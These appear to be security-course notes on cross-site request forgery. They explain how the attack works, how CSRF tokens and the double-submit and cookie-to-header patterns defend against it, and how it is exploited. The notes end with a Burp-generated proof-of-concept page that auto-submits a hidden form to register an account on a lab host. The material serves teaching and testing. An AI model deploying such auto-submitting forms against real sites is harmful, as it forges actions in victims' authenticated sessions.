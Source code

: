 #### 6.3. Cross-Site Request Forgery (CSRF)

This Learning Unit covers the following Learning Objectives:

1. Understand the concept of cross-site request forgery
2. Understand how to identify cross-site request forgery vulnerabilities
3. Understand how to exploit cross-site request forgery vulnerabilities

This Learning Unit will take approximately 30 minutes to complete.

Cross-site Request Forgery was a staple in the _OWASP Top 10_,[1](https://portal.offsec.com/courses/web-200-28380/learning/cross-origin-attacks-30961/samesite-cookies-31306/samesite-cookies-31399#fn-local_id_237-1) but it was dropped from the 2017 version due to browsers implementing new defensive controls as well as many frameworks including CSRF protections.[2](https://portal.offsec.com/courses/web-200-28380/learning/cross-origin-attacks-30961/samesite-cookies-31306/samesite-cookies-31399#fn-local_id_237-2) In a CSRF exploit, an attacker tricks a user into submitting a request to a site where the user already has an active, authenticated session.

Attackers can phish the victim directly or inject malicious content into a web application, which the victim then loads. In either case, the CSRF payload forces the victim's browser, which includes any session cookies, to make a request to the web application. This browser behavior is changing, which we will discuss later on. Unless the web application has CSRF mitigations, it cannot differentiate between normal requests and malicious requests. The web application then executes the malicious request in the victim's session.

The most dangerous part of CSRF vulnerabilities is that any site that is visited could make these requests, assuming the user is authenticated and the browser will send the cookies to the target application. An attacker could target a specific user with a phishing attack to then launch a CSRF attack or compromise a website to launch CSRF attacks against any user visiting the site. Alternatively, a user could unintentionally visit a malicious site by browsing the internet.

The exact nature of what a CSRF vulnerability can do depends on the web application. Some examples include transferring money in a banking application, creating a new user (potentially including administrative users), or changing passwords to facilitate account takeover.

(OWASP, 2021), [https://owasp.org/www-project-top-ten/](https://owasp.org/www-project-top-ten/) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/cross-origin-attacks-30961/cross-site-request-forgery-csrf-31298/cross-site-request-forgery-csrf-31398#fnref-local_id_237-1)
(Scott Helme, 2019), [https://scotthelme.co.uk/csrf-is-really-dead/](https://scotthelme.co.uk/csrf-is-really-dead/) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/cross-origin-attacks-30961/cross-site-request-forgery-csrf-31298/cross-site-request-forgery-csrf-31398#fnref-local_id_237-2)

------------------
#### 6.3.1. Detecting and Preventing CSRF

Until the widespread adoption of _SameSite_ cookies, web applications are vulnerable to CSRF unless they specifically mitigate it. This is unlike other vulnerabilities that occur because of coding flaws. In other words, CSRF attacks exploit the default behavior of browsers and web applications, so it is up to an application to prevent the vulnerability. This is why we will discuss finding CSRF vulnerabilities and how to prevent them at the same time.

Applications can prevent CSRF attacks by requiring the user to submit an additional unique value to prove they are the one initiating the request. This cannot be just a cookie because browsers will automatically send cookies to the domain that created them. One common approach is to include a token or nonce, sometimes referred to as a CSRF token, as a hidden input field. The application randomly generates the value of this token per page or per session and specific to one user. A web application can confirm that a user intentionally sent a request by validating this CSRF token. If the token is missing or invalid, the application should not continue processing the request. This approach requires the application to track the relationship between users and their CSRF tokens.

However, having a server keep track of every CSRF token for every request can add overhead and usability concerns. For this reason, developers have created unique solutions where the server doesn't have to keep track of the token. While a CSRF token cookie by itself is not secure, with additional mitigating factors, it could be a good option.

There are two approaches that rely on a CSRF token cookie where browsers submit the value of the cookie in another way. The "cookie to header" approach uses client-side JavaScript to send the value as a request header. If the cookie value and request header value match on a request, the application can consider the request valid. This approach can be problematic as it requires JavaScript to gain access to the value in the first place. If JavaScript can access the cookie, a _cross-site scripting_ (XSS) vulnerability could allow an attacker to gain access to the cookie and bypass the CSRF protection.

-----------
Cross-site scripting vulnerabilities can bypass CSRF protections in an application since any requests generated by the XSS payload are considered part of the domain. In other words, the requests generated from an XSS payload are not considered cross-origin or cross-site and can therefore access hidden form values or include cookies on requests.

-------------
The "double submit" approach uses a hidden input field that contains the CSRF token value. Similar to the "cookie to header" approach, the web application can validate the cookie value matches in the input field value. One benefit of this approach is that JavaScript does not need access to the cookie containing the CSRF token. Additionally, the web application does not need to maintain a list of which tokens it has generated. It simply validates the values on any given request match.

If an application contains form elements that do not include these mitigations or use _SameSite_ cookies, it is vulnerable to CSRF. We should therefore inspect the HTML source in our browser or requests in Burp Suite to determine if any controls exist.

Let's consider the following hypothetical form.

A sample form without CSRF protection:
```html
<form action="/user/changePassword" method="post">
    <div class="form-group">
        <label for="password1">Password</label>
        <input type="password" class="form-control" id="password1" name="password1" required>
    </div>
    <div class="form-group">
        <label for="password2">Repeat Password</label>
        <input type="password" class="form-control" id="password2" name="password2" required>
    </div>
    <button type="submit" class="btn btn-primary">Submit</button>
</form>
```

<form action="/user/changePassword" method="post">
    <div class="form-group">
        <label for="password1">Password</label>
        <input type="password" class="form-control" id="password1" name="password1" required>
    </div>
    <div class="form-group">
        <label for="password2">Repeat Password</label>
        <input type="password" class="form-control" id="password2" name="password2" required>
    </div>
    <button type="submit" class="btn btn-primary">Submit</button>
</form>

A sample form with CSRF protection
- Notice the `"hidden"` field
```html
<form action="/user/changePassword" method="post">
    <div class="form-group">
        <input type="hidden" name="csrftoken" value="SXQncyBhIHNlY3JldCB0byBldmVyeWJvZHkh" />
        <label for="password1">Password</label>
        <input type="password" class="form-control" id="password1" name="password1" required >
    </div>
    <div class="form-group">
        <label for="password2">Repeat Password</label>
        <input type="password" class="form-control" id="password2" name="password2" required>
    </div>
    <button type="submit" class="btn btn-primary">Submit</button>
</form>
```

<form action="/user/changePassword" method="post">
    <div class="form-group">
        <input type="hidden" name="csrftoken" value="SXQncyBhIHNlY3JldCB0byBldmVyeWJvZHkh" />
        <label for="password1">Password</label>
        <input type="password" class="form-control" id="password1" name="password1" required >
    </div>
    <div class="form-group">
        <label for="password2">Repeat Password</label>
        <input type="password" class="form-control" id="password2" name="password2" required>
    </div>
    <button type="submit" class="btn btn-primary">Submit</button>
</form>


The HTML form now includes a hidden input field named "csrftoken". The metaphorical web application would use this value to determine that a user intentionally submitted this request. The input field containing the token can be named anything, but most frameworks or middleware tend to include "csrf" and "token" somewhere in the name.


------------------
#### 6.3.2 Exploiting CSRF

Generally, it is easier to exploit CSRF with GET requests as there are several ways to instruct a browser to send a GET request. One example is to place the URL that will execute the CSRF attack in an `image tag`. A browser will send a GET request for image tags. In a CSRF attack, we only care that the victim's browser sends the request with the CSRF payload. Even if the browser cannot render the response, the target web application should handle the request and perform the associated functionality. In such cases, attackers can leverage simple content injection vulnerabilities to create persistent CSRF attacks that target all users of the application via HTML tags that are essentially invisible, such as images or iFrames with no size.

Sending a POST request can be more difficult. We would need to trick the user into loading an HTML form that uses JavaScript to submit itself on the _load_ event. This approach also restricts what content-types and HTTP methods we can use. For example, an HTML form cannot send JSON data natively. Standard HTML forms can only send GET and POST requests.

JavaScript APIs, such as _XMLHttpRequest_[1](https://portal.offsec.com/courses/web-200-28380/learning/cross-origin-attacks-30961/cross-site-request-forgery-csrf-31298/detecting-and-preventing-csrf-30999#fn-local_id_258-1) (XHR) and Fetch, can send requests with arbitrary HTTP methods and content-types. However, when used in this way, these APIs will send a _preflight_[2](https://portal.offsec.com/courses/web-200-28380/learning/cross-origin-attacks-30961/cross-site-request-forgery-csrf-31298/detecting-and-preventing-csrf-30999#fn-local_id_258-2) request to determine if Cross-Origin Resource Sharing (CORS) is enabled on the target server. We will discuss CORS later.

(Wikipedia, 2021), [https://en.wikipedia.org/wiki/XMLHttpRequest](https://en.wikipedia.org/wiki/XMLHttpRequest) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/cross-origin-attacks-30961/cross-site-request-forgery-csrf-31298/exploiting-csrf-30970#fnref-local_id_258-1)
(Mozilla, 2021), [https://developer.mozilla.org/en-US/docs/Glossary/Preflight_request](https://developer.mozilla.org/en-US/docs/Glossary/Preflight_request) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/cross-origin-attacks-30961/cross-site-request-forgery-csrf-31298/exploiting-csrf-30970#fnref-local_id_258-2)

-----------------


<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://screamin_firehawk/loginLogout" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="&#95;token" value="uQzxxdaDIx4I06JV6xCM4ZFiw3kZ6MEmS3AMFdyq" />
      <input type="hidden" name="username" value="testadmin" />
      <input type="hidden" name="password" value="testadmin" />
      <input type="hidden" name="firstName" value="testadmin" />
      <input type="hidden" name="lastName" value="testadmin" />
      <input type="hidden" name="email" value="testadmin&#64;local&#46;com" />
      <input type="hidden" name="dType" value="isRegister" />
      <input type="hidden" name="type" value="100" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
